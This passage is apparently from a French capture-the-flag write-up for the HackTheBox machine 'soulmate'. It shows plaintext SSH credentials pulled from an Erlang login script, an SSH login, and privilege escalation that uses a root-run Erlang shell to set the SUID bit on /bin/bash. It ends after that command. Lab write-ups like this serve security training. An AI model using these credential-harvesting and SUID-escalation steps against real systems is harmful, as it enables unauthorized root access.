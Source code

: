### Extraction des credentials

```bash
cat /usr/local/lib/erlang_login/start.escript
```

**Credentials trouvés :**
```erlang
{user_passwords, [{"ben", "HouseH0ldings998"}]},
```

### Qu'est-ce qu'Erlang ?

**Erlang** est un langage de programmation fonctionnel développé par Ericsson, principalement utilisé pour :
- Les systèmes distribués et tolérants aux pannes
- Les télécommunications
- Les systèmes temps réel

Dans ce contexte, Erlang gère l'authentification SSH via un script `.escript` (script Erlang exécutable). Le service tourne en root et écoute sur le port **2222** localement.

### Connexion SSH

```bash
ssh ben@soulmate.htb
```

Password : `HouseH0ldings998`

**Flag user :**
```bash
cat ~/user.txt
```

---

## Élévation de privilèges (ben → root)

### Exploitation du service Erlang

Le service `/usr/local/lib/erlang_login/start.escript` tourne en **root** et expose un shell Erlang interactif.

### Méthode 1 : Via SUID bit

1. **Connexion au service Erlang (port 2222) :**
   ```bash
   ssh ben@127.0.0.1 -p 2222
   ```

2. **Prompt Erlang obtenu :** `(ssh_runner@soulmate)1>`

3. **Ajout du bit SUID à /bin/bash :**
   ```erlang
   os:cmd("/bin/bash -c 'chmod u+s /bin/bash'").
   ```
